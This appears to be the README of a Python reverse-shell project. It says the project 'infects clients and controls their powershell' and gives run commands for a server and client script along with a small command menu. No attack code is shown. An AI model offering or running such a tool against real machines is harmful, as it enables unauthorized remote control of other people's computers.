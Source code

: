 # Reverse-Shell
Infects clients and controls their powershell with Python.
To de instalation you need has a server (any operative system) and 
execute the python script.
#### Requirements

- 🐍 Python 3.x 🐍
- 💫 Open Ports 💫

#### Installation
Linux or Windows or  MacOs

#### [Server]

```sh
python3 server.py
```
#### [Client]
```sh
python3 client.py {ip}
```

#### Extra commands

#### [Menu]

- connect {number}

#### [Shell Commmands]

- alert {title} {message}
- exit

